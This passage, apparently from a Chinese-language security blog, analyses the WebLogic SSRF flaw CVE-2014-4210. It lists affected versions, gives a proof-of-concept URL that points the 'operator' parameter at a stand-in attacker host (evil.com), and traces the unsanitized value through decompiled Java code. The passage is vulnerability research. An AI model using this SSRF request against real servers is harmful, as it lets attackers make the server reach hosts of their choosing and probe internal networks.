 ```yaml
---
title: "WebLogic"
author: ["4shen0ne"]
lastmod: 2024-12-14T14:25:35+08:00
tags: ["java"]
draft: false
---
```


## CVE-2014-4210 {#cve-2014-4210}


### 影响范围 {#影响范围}

-   Oracle WebLogic Server 10.0.2.0
-   Oracle WebLogic Server 10.3.6.0


### POC {#poc}

```text
http://localhost:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&btnSubmit=Search&operator=http://evil.com
```


### 漏洞分析 {#漏洞分析}

该漏洞为 SSRF 漏洞，输入点在 `/uddiexplorer/SearchPublicRegistries.jsp` 页面的
operator 参数中。

{{< figure src="/ox-hugo/_20240530_182544screenshot.png" >}}

看一下 SearchPublicRegistries.jsp 对该参数的处理：

{{< figure src="/ox-hugo/_20240530_182626screenshot.png" >}}

从请求中拿到 operator 没做什么处理便传入 search 对象，然后调用了它的 getResponse
方法，那么跟进一下 search 对象的类 `com.bea.uddiexplorer.Search`

首先是 setOperator 方法：

```java
public void setOperator(String var1) {
    try {
        this.m_operator = var1;
        this.setUDDIInquiryURL(var1);
    } catch (Exception var4) {
        String var3 = (new UDDITextFormatter()).uddiExplorerSearchOpException();
        this.log.error(var3, var4);
    }
}
public void setUDDIInquiryURL(String var1) {
    this.UDDI_INQUIRY_URL = var1;
    this.m_inquiry.setURL(this.UDDI_INQUIRY_URL);
}
```
